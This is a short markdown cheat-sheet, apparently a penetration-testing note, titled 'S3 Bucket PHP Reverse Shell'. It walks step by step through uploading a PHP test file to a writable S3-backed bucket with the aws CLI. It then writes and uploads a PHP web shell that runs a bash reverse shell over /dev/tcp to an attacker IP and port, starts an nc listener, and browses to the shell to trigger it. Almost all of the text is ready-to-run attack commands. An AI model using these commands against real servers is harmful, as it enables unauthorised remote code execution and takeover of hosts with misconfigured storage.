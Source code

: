 # S3 Bucket PHP Reverse Shell

### Requirements: The server runs php.

### Steps:

#### 1) 

    echo '<?php phpinfo();?>' > test.php 

#### 2) (These 2 commands will verify if the server actually runs php)

    aws --endpoint-url=http://s3.DOMAIN.com s3 cp test.php s3://BUCKET_NAME 

### If yes then:

#### 3) Create a php reverse shell, then upload it to the server

    echo "<?php exec('/bin/bash -c \"bash -i >& /dev/tcp/OUR_IP/PORT 0>&1 \"');?>" > shell.php

#### 4) 

    aws --endpoint-url=http://s3.DOMAIN.com s3 cp shell.php s3://BUCKET_NAME 

#### 5) Setup listener 

    nc -lvnp PORT

#### 6) Browse to 

    http://DOMAIN.com/shell.php
